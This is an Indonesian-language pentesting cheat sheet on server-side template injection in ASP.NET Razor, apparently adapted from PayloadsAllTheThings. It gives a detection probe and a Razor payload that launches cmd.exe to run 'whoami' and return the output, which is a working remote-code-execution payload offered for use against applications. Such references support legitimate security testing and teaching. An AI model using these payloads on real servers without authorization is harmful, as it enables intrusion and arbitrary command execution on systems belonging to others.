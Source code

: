 # Server Side Template Injection - ASP.NET

> **Server-Side Template Injection (SSTI)** adalah kerentanan di mana penyerang dapat menyisipkan input berbahaya ke dalam template di sisi server, sehingga template engine mengeksekusi kode arbitrer di server. Pada ASP.NET, SSTI bisa terjadi jika input pengguna langsung dimasukkan ke template (seperti Razor, ASPX, atau engine lain) tanpa sanitasi yang benar.

## Ringkasan

- [ASP.NET Razor](#aspnet-razor)
  - [Injeksi Dasar](#injeksi-dasar)
  - [Eksekusi Perintah](#eksekusi-perintah)
- [Referensi](#referensi)

## ASP.NET Razor

[Razor Docs Resmi](https://docs.microsoft.com/en-us/aspnet/web-pages/overview/getting-started/introducing-razor-syntax-c)

> Razor adalah sintaks markup yang memungkinkan Anda menyisipkan kode server (C# atau VB) ke dalam halaman web.

### Injeksi Dasar

Coba payload berikut untuk menguji SSTI pada Razor:

```csharp
@(1+2)
```

Jika output menjadi `3`, kemungkinan besar aplikasi rentan SSTI.

### Eksekusi Perintah

Payload berikut dapat digunakan untuk mencoba eksekusi kode (jika memungkinkan):

```csharp
@{
    var proc = new System.Diagnostics.Process();
    proc.StartInfo.FileName = "cmd.exe";
    proc.StartInfo.Arguments = "/c whoami";
    proc.StartInfo.UseShellExecute = false;
    proc.StartInfo.RedirectStandardOutput = true;
    proc.Start();
    var output = proc.StandardOutput.ReadToEnd();
    proc.WaitForExit();
    @output
}
```

> **Catatan:** Payload eksekusi perintah biasanya diblokir pada konfigurasi default.

## Referensi

- [PayloadAllTheThings - SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
